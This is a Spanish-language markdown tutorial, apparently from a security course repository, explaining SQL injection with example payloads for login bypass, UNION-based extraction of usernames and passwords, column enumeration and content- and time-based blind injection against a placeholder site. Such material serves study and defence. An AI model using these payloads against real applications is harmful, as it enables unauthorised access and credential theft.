 [Volver al inicio](../Readme.md)
# SQLi (SQL Injection)
## Introducción.
Se trata de una vulnerabilidad que permite a un atacante **"alterar"** las consultas SQL que realiza una aplicación sobre la base de datos, de forma que consigue obtener un beneficio que no estaba contemplado en el desarrollo de la aplicación. El beneficio se basa en obtener información privilegiada que puede ser tanto nombres de tablas, como campos o incluso leer los datos de acceso de los usuarios.

Por ejemplo, imagina un campo "valor" en un formulario de búsqueda de productos de una aplicación web:

```https://www.webvictima.com/productos?valor=100 ```

Desde el punto de vista de la aplicación seguramente se realiza una petición parecida a:

```SQL
SELECT * FROM Productos WHERE precio < '100' ORDER BY name;
```

Así pues, si la aplicación no está protegida, se puede escribir una comilla  **'**  en el campo valor, para comprobar si la aplicación es vulnerable a SQL Injection. La consulta quedaría como:

```SQL 
SELECT * FROM Productos WHERE precio < "'"  ORDER BY name; 
```

Si obtenemos un error en la consulta, bien por que lo muestra en la pantalla o bien porque lo interceptamos con Burp Suite, significaría que la aplicación es vulnerable, posiblemente, a SQL Injection.

Una de las primeras opciones que siempre se explica en la teoría de SQLi, es la del payload " ' OR '1'='1 ", que aplicado sobre la consulta, quedaría:

```SQL 
SELECT * FROM Productos WHERE precio < '100' OR '1'='1' ORDER BY name;
```

En este caso, estamos pidiendo, por una parte, los productos con precio inferior a 100, pero por otra, estamos indicando una afirmación ('1'='1'), por lo que el resultado es igual a TRUE y mostraría **TODOS los productos**. La consulta equivalente sería:

```SQL 
SELECT * FROM Productos 
```

## Utilización de espacios para alterar la consulta original
En las consultas SQL se pueden utilizar comentarios, esto permite clarificar las consultads, sobre todo si son complejas y el motor de la base de datos no tendrá en cuenta dichos comentarios.

Para aplicar un comentario a la consulta, se suele utilizar dos guiones " **--** ".

```SQL
-- Creando tabla usuarios
CREATE TABLE usuarios
( user_id int PRIMARY KEY,
  username varchar(40) NOT NULL,
  password varchar(64) NOT NULL
);
 ```

Imagina ahora esta técnica sobre un formulario de login con la siguiente consulta:

```SQL
SELECT * FROM Usuarios WHERE usuario='admin' AND passwd='pass';
```

Apliquemos ahora la técnica de comentarios SQL mediante el payload ```admin' OR 1=1-- ```, tendríamos:

```SQL
SELECT * FROM Usuarios WHERE usuario='admin' OR 1=1-- AND passwd='pass';
```

Al aplicar los comentarios, realmente la consulta se quedaría en:

```SQL
SELECT * FROM Usuarios WHERE usuario='admin' OR 1=1;
```

Que realmente quedaría como:
```SQL
SELECT * FROM Usuarios
```

Y lo que estaríamos consiguiendo sería que mostrase la tabla completa de usuarios y contraseñas.

```
Además, si no se ha tenido la precaución de encriptar las contraseñas, el problema sería todavía mayor, pues el atacante podría ver los usuarios y las contraseñas en texto claro !!!
```

## Utilización de la sentencia "UNION"
Otra forma que pueden utilizar los atacantes para alterar la consulta y obtener datos no permitidos inicialmente, es usar la sentencia "UNION" para concatenar una segunda consulta:

PAYLOAD: ```100' UNION SELECT usuario, passwd FROM Usuarios-- ```

Que produciría la consulta:

```SQL
SELECT nombre, denom FROM Productos WHERE precio < '100' UNION SELECT usuario, passwd FROM Usuarios-- ORDER BY name;
```
Y que obtendría como resultado, no solo los datos de todos los productos con precio inferior a 100, sino también, todos los nombres de usuario y passwords de la tabla "Usuarios".

```
Atención !!!
Para que la consulta tenga éxito, debe coincidir el número de columnas del primer y segundo "SELECT" y además, debe coincidir en el tipo de datos.
```

### ¿Cómo podemos determinar el número de columnas de una consulta?
#### Método 1:
Utilizar la cláusula "**ORDER BY**" e ir probando números hasta que devuelva error, en el momento que esto suceda, sabremos que el número de columnas es el valor anterior al que provocó el error.

```
' ORDER BY 1--
' ORDER BY 2--
... etc
```

Como se observa, no es necesario saber el nombre de las columnas, se puede llamar por el índice o número de columna.

#### Método 2:
Utilizar la cláusula "**NULL**" de forma parecida al método anterior, probando hasta obtener el error:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
... etc
```

### Determinar el tipo de datos de la columna
Una vez se ha obtenido la cantidad de columnas que devuelve la consulta, deberemos saber el tipo de datos de cada columna. Una forma de averiguarlo es alternar, por ejemplo, un caracter de tipo texto 'x' y ver si el resultado ddevuelve o no error.

```
' UNION SELECT 'x',NULL,NULL--
' UNION SELECT NULL,'x',NULL--
' UNION SELECT NULL,NULL,'x'--
```


## Inyección SQL a ciegas (Blind SQLi)
En ocasiones, es posible que ante la inyección de un payload en una consulta, no se obtenga ningún resultado en la respuesta HTTP, ni detalles de la consulta ni errores.
En este caso, se puede intentar la aplicación de las inyecciones ciegas.
### Inyección ciega basada en el contenido
Imaginemos la petición de un determinado producto a nuestra web de productos:

```https://www.webvictima.com/productos?id=23 ```

Que, por ejemplo, se traduce en la siguiente consulta SQL:

```SQL 
SELECT * FROM Productos WHERE id_producto=23;
```

Si ahora aplicamos un payload cierto y otro falso de forma consecutiva, podemos observar si existe alguna diferencia en la respuesta de la BB.DD., en caso de existir una diferencia, sabremos que podemos aplicar payloads y únicamente deberemos observar el resultado para saber si la consulta devuelve cierto o falso.

```SQL 
-- Aplicamos un payload que devuelva TRUE ' AND 1=1--
SELECT * FROM Productos WHERE id_producto=23 AND 1=1--;

-- Aplicamos un payload que devuelva FALSE ' AND 1=2--
SELECT * FROM Productos WHERE id_producto=23 AND 1=2--;
```
### Inyección ciega basada en el tiempo
Otra forma de detectar si una aplicación es vulnerable a inyecciones SQL cuando la base de datos no devuelve errores, es utilizando retardos en las consultas. La idea es aplicar un retardo a una condición verdadera y a una falsa, observar si se produce un retraso significativo en la respuesta y por la tanto, tener la base para determinar respuestas verdaderas o falsas.

```SQL 
-- Aplicamos un payload que devuelva TRUE ' AND 1=1 AND SLEEP(10)--
SELECT * FROM Productos WHERE id_producto=23 AND 1=1 AND SLEEP(10)--;

-- Aplicamos un payload que devuelva FALSE ' AND 1=2 AND SLEEP(10)--
SELECT * FROM Productos WHERE id_producto=23 AND 1=2 AND SLEEP(10)--;
```
A partir de aquí, podríamos ir poniendo condicionales para intentar obtener datos a ciegas:

```SQL
-- Delay de 10 segundos si la primera letra del usuario es una 'a'
SELECT IF(LEFT(usuario, 1)='a',SLEEP(10),SLEEP(0))
```

## Obtención de datos de estructura
Un ejemplo de cómo llegar a obtener el conjunto de tablas que componen la base de datos seria el que se adjunta a continuación (la sintaxis puede variar en función de la base de datos):

```SQL
SELECT * FROM information_schema.tables
```
## Bibliografía
- Portswigger. (s.f.). SQL injection. https://portswigger.net/web-security/sql-injection
- Sengupta, S. (25/07/2022). Medium. https://sudip-says-hi.medium.com/union-based-sql-injection-guide-to-understanding-mitigating-such-attacks-1775149e80e6 
- PortSwigger. (s.f.). Blind SQL injection. https://portswigger.net/web-security/sql-injection/blind
- kingthorin. (s.f.). Blind SQL Injection. https://owasp.org/www-community/attacks/Blind_SQL_Injection




